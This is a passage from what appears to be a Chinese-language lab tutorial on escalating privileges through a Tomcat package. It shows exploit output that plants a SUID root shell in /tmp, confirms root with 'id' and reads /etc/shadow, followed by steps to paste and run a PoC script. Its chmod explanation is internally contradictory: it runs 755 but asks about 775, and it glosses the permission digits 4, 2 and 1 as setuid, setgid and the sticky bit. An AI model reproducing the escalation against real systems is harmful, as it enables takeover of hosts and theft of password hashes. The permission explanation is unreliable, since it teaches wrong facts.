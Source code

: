 ```

[+] Escalating privileges via the /usr/bin/sudo SUID binary to get root!

[+] Rootshell got assigned root SUID perms at: 
-rwsrwxrwx 1 root root 1037464 Sep 30 22:27 /tmp/tomcatrootsh

Please tell me you're seeing this too ;)

[+] Executing the rootshell /tmp/tomcatrootsh now! 

tomcatrootsh-4.3# id
uid=110(tomcat7) gid=118(tomcat7) euid=0(root) groups=118(tomcat7)
tomcatrootsh-4.3# whoami
root
tomcatrootsh-4.3# head -n3 /etc/shadow
root:$6$oaf[cut]:16912:0:99999:7:::
daemon:*:16912:0:99999:7:::
bin:*:16912:0:99999:7:::
tomcatrootsh-4.3# exit
exit 
```

首先我们下载 poc 文件，然后执行命令`cd /tmp`进入目录,然后编辑文件`vim poc.sh`。将桌面的 poc.sh 使用 Notepad++打开，将文件内容粘贴进去。然后按键盘 Esc 键，再输入`:wq`，之后按 Enter 键将文件保存。 如果无法写入文件，使用命令

```
chmod 755 poc.sh 
```

执行命令后，再次重复上一步即可，chmod 的意思是改变文件的权限，775 是什么权限呢？第一个数字代表文件所属者的权限，第二个数字代表文件所属者所在组的权限，第三个数字代表其它用户的权限，7=4+2+1

> 4：执行时设置用户 ID，用于授权给基于文件属主的进程，而不是给创建此进程的用户。 2：执行时设置用户组 ID，用于授权给基于文件所在组的进程，而不是基于创建此进程的用户。 1：设置粘着位。

![image](img/641f24e556506b165fc93509560e3dab.png)
